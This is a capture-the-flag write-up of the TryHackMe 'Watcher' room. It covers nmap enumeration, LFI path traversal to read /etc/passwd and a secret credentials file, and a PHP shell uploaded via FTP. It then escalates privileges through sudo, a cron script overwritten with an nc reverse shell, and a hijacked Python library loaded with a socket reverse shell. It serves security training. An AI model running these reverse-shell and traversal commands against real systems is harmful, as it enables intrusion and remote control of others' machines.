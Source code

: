 # 67 - Watcher (LFI RCE, Python custom library hacking)

Room Link --> [https://tryhackme.com/room/watcher](https://tryhackme.com/room/watcher)

### Enumeration

```
nmap -Pn -n -vv 10.10.177.151 -p- -sV

21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
```

### Flag 1

Navigating to `/robots.txt`&#x20;

```
User-agent: *
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt
```

### Flag 2

From the hint we can see a reference to LFI.

Navigating to [http://watcher.thm/post.php?post=/../../../../etc/passwd](http://watcher.thm/post.php?post=/../../../../etc/passwd)

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see 3 users (will, mat, toby) :(

SO i decided to use SecsLists LFI list to bruteforce and see if i can be able to read any file.

`/opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt` .

Then i landed on this:

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i tried to read this file and it worked.

Navigating to [http://watcher.thm/post.php?post=secret\_file\_do\_not\_read.txt](http://watcher.thm/post.php?post=secret\_file\_do\_not\_read.txt)

{% code overflow="wrap" %}
```bash
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- 

# ftp crendentials
ftpuser : givemefiles777
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Login via ftp and got flag2

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 3

#### LFI RCE via Abusing Upload Functions

This was provided as a hint --> [blog](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/)

{% hint style="info" %}
Again, our goal is to upload an image with PHP commands included. We will use it to append as a comment our PHP command.
{% endhint %}

I our own case we are able to upload a php file directly from the ftp server.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Navigate to: [http://watcher.thm/post.php?post=/home/ftpuser/ftp/files/shell.php](http://watcher.thm/post.php?post=/home/ftpuser/ftp/files/shell.php)

And i got shell.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 3

We find flag3 in `/var/www/html/more_secrets_a9f10a` dir.

### Flag 4

#### Priv Esc to Toby

`sudo -l` - we can execute all cmds as Toby.

`sudo -u toby /bin/bash` - and we are Toby.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 5

We see a cronjob running as user Mat.

We also have RW permission on the cow.sh file. So we modify it with a rev shell.

`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9001 >/tmp/f' > cow.sh`&#x20;

Setup nc and we get a shell as Mat.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 6

#### Priv Esc to Will

So `sudo -l` we can run a python script as user Will.

We found 2 scripts inside: cmd.py and will\_script.py. Reading the will\_script.py we see that it is a filter script. It restricts the user from running commands other than ls, id and cat /etc/passwd commands. It uses a python library named cmd. The library asks for a numeric entry and then it runs one of the three command mentioned earlier. Since we have library inside the same directory as the script, we can hijack the library to run a reverse shell python script.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we will use the echo command to insert the python reverse shell script inside the python library script is using i.e., cmd.py. After doing so, we will run a netcat listener on the same port that we mentioned inside the reverse shell script. Now all that is left is to run the python script will\_script.py as will user using sudo.

echo 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.10.73.100",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> /home/mat/scripts/cmd.pysudo -u will /usr/bin/python3 /home/mat/scripts/will\_script.py \*

<figure><img src="https://1.bp.blogspot.com/-73AhQIG2Mqc/YKqw_dMTW0I/AAAAAAAAwE0/qKfJbi4XISs4NvslUsvYaQ-Tea4m6lLjgCLcBGAsYHQ/s16000/22.png" alt=""><figcaption></figcaption></figure>

After running the script as will user, we get back to our local machine where we ran the netcat listener earlier.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root.

So there is a backup dir in the /opt dir. There is a ssh priv key in there it belongs to root.

Done!
